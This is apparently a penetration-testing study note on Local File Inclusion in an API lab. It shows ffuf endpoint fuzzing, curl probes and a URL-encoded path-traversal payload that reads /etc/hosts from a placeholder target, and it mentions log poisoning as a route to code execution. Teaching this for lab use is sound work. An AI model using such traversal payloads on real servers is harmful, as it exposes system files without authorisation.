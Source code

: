 # Local File Inclusion (LFI)
Refer to [[LFI - Local File Inclusion]] for in-depth attacks.

An attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`.
## Example Scenario
Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```

It looks like `/api/download` is a valid API endpoint. We can interact with it to look for anything good:
```shell
curl http://<TARGET IP>:3000/api/download
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.
```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```